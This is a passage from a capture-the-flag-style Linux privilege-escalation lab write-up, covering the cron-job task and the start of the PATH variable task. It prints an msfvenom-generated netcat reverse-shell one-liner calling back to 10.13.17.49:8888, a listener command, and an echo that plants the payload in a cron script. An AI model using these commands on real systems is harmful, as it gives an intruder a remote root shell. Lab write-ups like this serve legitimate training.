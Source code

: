 Let's create a payload using *msfvenom* on our local machine which we can use to call back to our machine when the cron job is executed.

```text
$ msfvenom -p cmd/unix/reverse_netcat lhost=10.13.17.49 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
mkfifo /tmp/puvp; nc 10.13.17.49 8888 0</tmp/puvp | /bin/sh >/tmp/puvp 2>&1; rm /tmp/puvp
```

Note that we will need to copy the output of *msfvenom* to the `autoscript.sh` file on the remote machine. Before we do that, let's start our *netcat* listener on port 8888.

```text
$ nc -lvnp 8888
```

Copy the output of *msfvenom* to the target script file on the remote machine.

```text
$ echo "mkfifo /tmp/puvp; nc 10.13.17.49 8888 0</tmp/puvp | /bin/sh >/tmp/puvp 2>&1; rm /tmp/puvp" > autoscript.sh
```

![Crontab msfvenom](../../assets/images/thm/commonlinuxprivesc/16%20-%20crontab.png)

Now we just need to wait for five minutes to get a call back on our *netcat* listening session.

![Crontab PrivEsc](../../assets/images/thm/commonlinuxprivesc/17%20-%20crontab.png)

## Task 9 - Exploiting PATH Variable
For information on privilege escalation by exploiting PATH variables, refer to the notes linked [here](../../notes/privesc_linux/pathvariable.md).

### Questions

Looking at the contents of the home directory for user5, we find a file named *script* with SUID bit set. Executing the binary, we find that the binary most likely calls the `ls` command to display the contents of the current directory.
